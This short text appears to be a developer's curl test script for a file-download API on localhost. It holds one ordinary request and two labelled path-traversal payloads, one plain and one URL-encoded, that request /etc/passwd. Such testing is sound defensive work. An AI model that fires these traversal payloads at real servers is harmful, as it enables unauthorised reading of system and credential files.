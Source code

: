 ## benign
curl -v http://localhost:5007/api/files/download/1.txt -o test/output/1.txt

## path traversal attempt 1
curl -v "http://localhost:5007/api/files/download/../../../../../../../../../../../../../../../../etc/passwd" -o /tmp/pooled_passwd.txt

## path traversal attempt 2
curl -v "http://localhost:5007/api/files/download/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd" -o /tmp/pooled_passwd.txt

